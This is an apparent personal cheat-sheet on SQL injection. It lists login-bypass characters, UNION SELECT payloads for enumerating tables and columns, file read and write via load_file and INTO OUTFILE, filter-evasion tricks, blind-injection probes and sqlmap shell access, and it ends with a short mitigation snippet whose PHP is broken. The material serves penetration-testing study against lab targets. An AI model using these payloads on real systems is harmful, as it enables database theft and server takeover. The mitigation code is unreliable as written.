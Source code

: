 * Try to login using SQL statements or symbols (eg. **'** or **%27**)
* Comment the rest of the query using **#** , **%23** , **--** , **/*** , **//** 
* If you think there is some kind of client side filtering, use Burp Proxy
* To read database information:
  * **Order By _n_** - Iterate over **n** to find out the number of columns in table
  * **Union Select 1,2,3,...,n** - Allows you to check which columns are getting displayed by the site
  * **database()** - Name of the database
  * **user()** - User of the server
  * **version()** - OS version of the server
  * **load_file('_path_')** - Load local file
  * **Union Select null, _code_, null Into Outfile '_filePath_'** - Write into file (useful with local file vuln)
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables** - Name of all the tables in the SQL
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables Where table_schema = "owasp10"** - Name of all the tables in owasp10 database
  * **Union Select 1, column_name, null, null, 5 From information_schema.columns Where table_name = "accounts"** - Name of all the columns in accounts table
  * If site doesnt iterate through all results from the query use **limit**:
    * **Union Select table_name,2 From information_schema.tables Limit 1,2** - Iterate through results 1 by 1.
* Use Burp Decoder to encode query to HEX (0x...)
* Use **+** instead of SPACE
* Use different cases to avoid filters
* In a Blind SQL Injection, try to send a true and false value to see how the page behaves
  * True - **and 1=1** or **order by 1**
  * False - ** and 1=0** or **order by 10000000**

### Auto SQL Injection
* **$ sqlmap -u _"URL"_** - Find SQL injections automatically
* We can get shell with **SQLMap**

### Mitigation
* [Fast way](https://github.com/KevinSantos/Hacking/blob/master/sqlInjectionMitigation.php)
* Best way:
   ```php
   <?php
   $hackerInput = "admin' union select #";

   prepare("SELECT * FROM accounts WHERE username = ?);
   execute(array('$hackerInput');
   ?>
   ```
